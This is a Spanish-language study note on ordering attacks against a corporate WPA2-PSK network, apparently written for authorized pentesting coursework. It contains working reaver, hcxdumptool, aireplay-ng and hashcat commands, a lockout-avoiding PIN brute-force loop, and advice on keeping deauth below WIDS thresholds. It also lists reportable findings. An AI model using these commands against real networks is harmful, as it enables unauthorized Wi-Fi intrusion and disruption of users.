

---
tags:
  - Wi-Fi/WPA
  - Pentesting/Explotacion
Descripción: "El orden real de ataque a una red WPA2 corporativa: WPS primero, luego PMKID o handshake, y qué reportar cuando nada de eso rompe la clave"
Fecha de actualización: 2026-08-04
Nota previa: "[[02 - Redes guest y portales cautivos]]"
Nota siguiente: "[[04 - Evil twin y portales hostiles]]"
Area: "[[Wi-Fi corporativo.base|Wi-Fi corporativo]]"
---
---

Contra una red WPA2-PSK hay cuatro vías, y <mark style="background: #ADCCFFA6;">el orden correcto no es el de dificultad sino el de coste y ruido</mark>: lo que puede resolverse sin molestar a ningún usuario va primero.



# WPS: la vía corta cuando existe

Si el reconocimiento marcó una versión de WPS, esta rama se agota antes que cualquier otra: **devuelve la PSK directamente**, sin crackear.

El primer paso es acotar el keyspace del PIN a partir del fabricante:

```shell-session
$ hcxhashtool -i hash.hc22000 --info-vendor-ap=stdout
$ grep -i "^107BEF" /var/lib/ieee-data/oui.txt
107BEF     (base 16)		Zyxel Communications Corporation
```

Con el fabricante identificado se generan PINs candidatos y se prueban de uno en uno. `reaver` tiene una peculiaridad importante:

```shell-session
$ sudo iw dev wlan0 interface add mon0 type monitor
$ sudo ip link set mon0 up
$ sudo reaver -i mon0 -b 10:7B:EF:08:A3:B4 -c 1 -p 05661961
```

> [!important]+ `reaver` prefiere una interfaz creada con `iw`, no con `airmon-ng`
> `airmon-ng` renombra la interfaz y ajusta el modo de forma que en muchos drivers `reaver` deja de asociarse correctamente. Crear una VIF de monitor con `iw dev … interface add mon0 type monitor` evita el problema. Ojo también con `ifconfig mon0 up`, que HTB usa: el equivalente moderno es `ip link set mon0 up`.

Cuando hay que probar varios PINs, lo que importa es **no disparar el bloqueo del AP**:

```bash
#!/bin/bash
for PIN in $(cat pins.txt); do
    echo "[*] Probando $PIN"
    sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 10:7B:EF:08:A3:B4 -c 1 -p "$PIN"
done
```

| Flag | Efecto |
| ---- | ------ |
| `--max-attempts=1` | Un intento por PIN, sin insistir |
| `-l 100` | Espera 100 s si el AP se bloquea |
| `-r 3:45` | Pausa de 45 s cada 3 intentos |

> [!warning]+ `wps_locked: 2` **no** significa "desbloqueado"
> HTB afirma que un valor de 2 confirma que el AP no está bloqueado. El enum de `reaver` dice otra cosa — `src/libwps/libwps.h`:
>
> ```c
> enum wps_locked_state { UNLOCKED, WPSLOCKED, UNSPECIFIED };
> ```
>
> <mark style="background: #FF5582A6;">`0` es desbloqueado, `1` bloqueado y `2` **sin especificar**</mark>: el AP no ha informado. Tratar un 2 como vía libre lleva a lanzar una fuerza bruta contra un AP que puede estar bloqueado y a acumular alertas sin resultado.

El desarrollo completo —Pixie Dust, algoritmos de PIN, bloqueo y rate limiting— está en [[WPS.base|el sub-tema de WPS]]. Los generadores de PIN y el aviso sobre repositorios huérfanos, en [[06 - Credenciales por defecto y keyspaces de fabricante]].

# Sin WPS: PMKID antes que deauth

Si WPS está desactivado (`0.0`), la decisión la marca `PMF`:

```shell-session
$ sudo hcxdumptool -i wlan0 -c 1a --bpf=alcance.bpf --exitoneapol -w cap.pcapng
```

`hcxdumptool` intenta primero el PMKID —que **no requiere clientes ni desautenticar a nadie**— y sólo después provoca handshakes. En un hospital, esa diferencia es la que separa un ataque aceptable de uno que interrumpe servicio.

Si el AP no entrega PMKID y `PMF` no es obligatorio, entra la deauth, siempre **dirigida** y corta:

```shell-session
$ sudo aireplay-ng -0 3 -a FE:E1:DE:CE:A5:E1 -c 02:00:00:00:03:00 wlan0mon
```

Tres tramas contra un cliente concreto quedan por debajo del umbral `DEAUTHFLOOD` de cualquier WIDS (5/min según la configuración por defecto de Kismet) y bastan para forzar la reasociación. La versión de difusión desconecta la celda entera — en el caso guía, un ala de hospital.

# El crackeo y su resultado más probable

```shell-session
$ hcxpcapngtool -o hash.hc22000 cap.pcapng
$ hcxhashtool -i hash.hc22000 --essid=StarLight-BYOD --authorized -o objetivo.hc22000
$ hcxpsktool -c objetivo.hc22000 --maconly --weakpass | sort -u > cand.txt
$ hashcat -m 22000 objetivo.hc22000 cand.txt
$ hashcat -m 22000 objetivo.hc22000 rockyou.txt -r OneRuleToRuleThemStill.rule
```

Cuando hashcat termina en `Exhausted`, la conclusión **no** es que el ataque haya fallado: es que la passphrase está fuera del espacio recorrido. Eso se reporta con el esfuerzo cuantificado —diccionarios, reglas, candidatas totales, horas de GPU— tal y como se argumenta en [[04 - Anatomía de una contraseña Wi-Fi]].

A partir de ahí sólo queda cambiar de plano: dejar de atacar la clave y atacar al usuario, que es [[04 - Evil twin y portales hostiles]].

# Hallazgos que salen sin romper nada

Aunque la PSK aguante, esta fase suele producir varios hallazgos reportables:

| Observación | Hallazgo |
| ----------- | -------- |
| `CIPHER: TKIP` | <mark style="background: #FFB86CA6;">Cifrado **deautorizado** desde 802.11-2012</mark> y fuera de la certificación Wi-Fi desde 2014. Además fuerza al AP a tasas heredadas |
| `PMF` ausente | Desautenticación efectiva: DoS contra clientes, y captura de handshake facilitada |
| WPS activo | Superficie innecesaria; con PIN estático, compromiso directo |
| PMKID entregado | Captura sin clientes, a cualquier hora, sin rastro para el usuario |
| Una sola PSK para todo el parque | Un solo dispositivo comprometido expone toda la red |

<mark style="background: #8000E1A6;">TKIP en 2026 es el hallazgo más fácil de justificar y de arreglar</mark>: no requiere cambiar la contraseña ni el hardware en la mayoría de casos, sólo desactivar el cifrado heredado en el perfil del WLAN. El contexto de por qué está retirado está en [[03 - RSN, WPA2 y el 4-way handshake]].
